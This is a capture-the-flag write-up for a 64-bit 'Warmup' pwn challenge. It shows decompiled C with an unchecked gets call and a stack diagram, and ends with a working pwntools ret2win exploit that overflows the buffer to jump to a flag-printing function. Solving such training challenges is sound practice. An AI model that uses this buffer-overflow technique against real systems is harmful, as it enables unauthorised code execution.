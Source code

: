 # Warmup (pwn)

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/84f252b4-3878-478d-874c-d158109bd1c0)  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/92cca5b2-2d66-4db3-a906-6552a86893c2)  

Running the program prints what seems to be an address and asks for input.
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/836d7fc8-117a-423c-ba6d-eef807d7a597)  

Loading this binary in ghidra gives the following  

```c
void main(void)

{
  char local_88 [64];
  char local_48 [64];
  
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(local_48);
  return;
}

void easy(void)

{
  system("cat flag.txt");
  return;
}
```

It seems our guess was correct. The program prints the address for the "win" function and then gets user input with `gets`. Sigh...  
Pretty easy. Since the binary does not use PIE, then we don't even need to worry about offsets.  

## Explanation  
Okay, from this function the STACK will look something like the following
```
|      local_48    |
|     local_48+1   |
|        ....      |
|        ....      |
|   local_48+63    |
|     saved rbp    |
| saved return addr|
```
So if we can abuse `gets` to keep writing into the stack, we can overwrite the saved return address so that the functions returns to whatever address we want.  
In this case, we would like to return to `easy`.  
Also, since this is a 64 bit binary we have to keep track of stack alignment.
Without further ado:  
```python
from pwn import *
ret = p64(0x00000000004004a1)
easy = p64(0x40060d) 
r = process('./warmup')
exploit = 72*b'A' + ret + easy

r.sendline(exploit)
r.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8e45fc68-c635-4513-b9dd-234d7bff80c1)  



